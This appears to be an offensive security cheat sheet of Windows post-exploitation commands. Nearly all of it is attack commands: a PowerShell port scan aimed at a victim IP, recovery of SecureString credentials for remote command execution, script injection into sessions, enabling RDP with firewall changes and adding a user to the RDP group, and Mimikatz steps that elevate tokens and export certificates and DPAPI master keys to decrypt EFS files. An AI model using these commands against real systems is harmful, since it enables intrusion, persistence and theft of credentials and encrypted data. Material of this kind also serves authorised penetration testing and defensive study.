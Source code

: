       Powershell Portscan

    0..65535 | % {echo ((new-object Net.Sockets.TcpClient).Connect(VICTIM_IP,$_)) "Port $_ is open!"} 2>$null

      Recovering Powershell Secure String

    ######
    $user = "morph3"
    $file = "morph3-pass.xml"
    $cred= New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $user, (Get-Content $file | ConvertTo-SecureString)
    Invoke-Command -ComputerName ECORP -Credential $cred -Authentication credssp -ScriptBlock { whoami }
    ######
    [System.Runtime.InteropServices.marshal]::PtrToStringAuto([System.Runtime.InteropServices.marshal]::SecureStringToBSTR("string"))
    ######
    $Ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToCoTaskMemUnicode($password)
    $result = [System.Runtime.InteropServices.Marshal]::PtrToStringUni($Ptr)
    [System.Runtime.InteropServices.Marshal]::ZeroFreeCoTaskMemUnicode($Ptr)
    $result

      Injecting PowerShell scripts Into sessions

    Invoke-Command -FilePath scriptname -Sessions $sessions
    Enter-PSSession -Session $sess

      Enable RDP

    # CMD
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
    # Powershell
    Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
    # Optional
    net localgroup "Remote Desktop Users" morph3 /add
    # Reruling firewall
    netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
    netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow

      Decrypting EFS files with Mimikatz

Follow the link here How to Decrypt EFS Files

    privilege::debug
    token::elevate
    crypto::system /file:"C:\Users\Administrator\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\thecert" /export
    dpapi::capi /in:"C:\Users\Administrator\AppData\Roaming\Microsoft\Crypto\RSA\SID\id"
    # Clear text password
    dpapi::masterkey /in:"C:\Users\Administrator\AppData\Roaming\Microsoft\Protect\SID\masterkey" /password:pass123
    # After this command you must have the exported .der and .pvk files